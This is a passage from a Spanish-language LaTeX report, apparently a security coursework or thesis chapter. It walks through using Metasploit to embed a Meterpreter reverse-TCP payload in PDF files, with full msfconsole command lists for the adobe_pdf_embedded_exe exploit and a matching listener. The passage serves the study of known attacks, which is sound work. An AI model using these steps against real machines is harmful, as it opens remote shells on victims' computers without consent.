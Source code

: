 Como se puede ver en los comandos, se está agregando un \emph{payload} que establece una conexión TCP con una computadora que estará esperando tal conexión. De esta forma, al igual que con el ataque a un dispositivo Android, establecemos una \emph{shell reversa}. 

Una vez creado el archivo PDF y abierto en la máquina que será la víctima, se deben realizar los mismos pasos que en el ataque a Android para conectarse con el dispositivo, pero cambiando el \emph{payload} 

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

La segunda vulnerabilidad a experimentar se puede hallar en Metasploit como  \autocite{AdobePDFEmbedded}. Los pasos para inyectarla en un archivo PDF muy similares a los realizados con la anterior.

Primero, se debe armar el PDF. Para ello, se necesita un archivo PDF de entrada, al cual inyectarle el \emph{payload}. Desde la consola de \texttt{msfconsole}, ejecutar los siguientes comandos:
\begin{itemize}
    \item \texttt{use exploit/windows/fileformat/adobe\_pdf\_embedded\_exe} 
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} 
    \item \texttt{set INFILENAME <ARCHIVO\_ENTRADA.pdf} 
    \item \texttt{set FILENAME <ARCHIVO\_SALIDA.pdf} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

Creado el archivo, es cuestión de abrir en la máquina objetivo y configurar una máquina a la cual se conectará la primera (el procedimiento es el mismo a la vulnerabilidad anterior).



\clearpage
\printbibliography


